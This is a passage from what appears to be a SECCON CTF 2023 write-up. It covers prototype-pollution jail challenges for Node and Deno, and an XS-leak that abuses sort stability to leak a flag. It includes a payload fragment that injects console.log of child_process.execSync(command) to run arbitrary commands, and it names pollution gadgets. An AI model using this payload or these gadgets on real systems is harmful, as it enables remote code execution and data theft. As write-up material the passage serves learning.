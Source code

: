 ``` py
                    "__custom__": True,
                    "type": "Function",
                    "args": [
                        f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"
                    ],
                },
            },
            # ref. https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Error/cause
            "cause": 1,
        },
        # Cause an error
        "toString": {
            "caller": {},
        },
    })
```

### deno-ppjail (2 solves)

Similar to the previous question, but this time we need to find a gadget for deno.

The gadget that the author found is `Object.prototype.return`.

Maple found `cause + circular.get`, and @parrot409 found `nodeProcessUnhandledRejectionCallback`.

For more detailed explanations, you can refer to maple's writeup: https://blog.maple3142.net/2023/09/17/seccon-ctf-2023-quals-writeups/#deno-ppjail

### hidden-note (1 solve)

This challenge is also interesting. It belongs to the type of XS leaks. There is a search function, but the search results filter out the flag.

The search result page can leak information through meta redirect, so we can see the result page. However, the flag has been removed from the result page. What else can we do?

During the search, the results are sorted first, and then the flag is removed. The sorting method used in this question is a stable sort when the number of elements is <= 12, and an unstable sort when the number of elements is > 12.

Therefore, we can create exactly 12 notes with the content: `ECCON{@|ECCON{a|ECCON{b|...`

Suppose the flag is `SECCON{abc}`. When searching for `ECCON{@`, because the total number is 12, it is a stable sort, and the order of the IDs on the search result page will not change.

But if we search for `ECCON{a`, the result becomes 13, and it becomes an unstable sort, changing the order of the notes.

Therefore, by examining the content of the result page, we can determine whether the original search result was within 12 or more than 12, and use it as an oracle to leak the flag.

This solution is really cool and innovative! Both Ark, who created the challnenge, and maple, who solved it, are really amazing.
